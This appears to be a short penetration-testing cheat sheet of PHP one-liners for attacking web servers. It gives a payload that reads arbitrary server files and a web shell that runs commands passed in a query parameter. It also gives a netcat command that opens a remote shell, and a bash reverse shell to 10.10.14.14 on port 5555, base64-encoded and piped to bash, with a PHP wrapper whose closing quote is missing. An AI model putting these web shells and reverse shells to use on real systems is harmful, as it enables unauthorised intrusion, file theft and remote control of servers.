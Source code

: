 ## PHP One-liners

Read arbitrary files from the server's filesystem:

`<?php echo file_get_contents('/path/to/target/file'); ?>`

Pass an arbitrary system command via a query parameter: _(exploit.php?command=whoami)_

`<?php echo system($_GET['command']); ?>`

Execute commands on the host:

`<?php $out=shell_exec('nc64.exe IP PORT -e cmd.exe'); echo '<pre>'.$out.'</pre>'; ?>`

If theres ever a time we have a web-shell, and we want to leverage it to get a full reverse shell:

```
First, base64 encode:
echo '/bin/bash -i >& /dev/tcp/10.10.14.14/5555 0>&1' | base64

Final payload: (Dont forget to URL encode)
echo L2Jpbi9iYXNoIC1pID4mIC9kZXYvdGNwLzEwLjEwLjE0LjE0LzU1NTUgMD4mMQo= | base64 -d | bash

If you need to include payload within php code:
<?php system("echo L2Jpbi9iYXNoIC1pID4mIC9kZXYvdGNwLzEwLjEwLjE0LjE0LzU1NTUgMD4mMQo= | base64 -d | bash ?>
```

